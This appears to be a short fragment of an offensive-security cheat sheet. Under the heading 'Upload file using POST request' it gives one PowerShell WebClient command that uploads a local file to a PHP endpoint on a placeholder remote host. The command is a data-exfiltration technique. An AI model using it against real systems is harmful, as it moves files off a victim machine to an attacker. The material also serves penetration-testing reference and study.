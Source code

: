 ### Upload file using POST request
```
powershell (New-Object System.Net.WebClient).UploadFile('http://<rhost>/<path>.php', '<absolutePathToFile>')
```

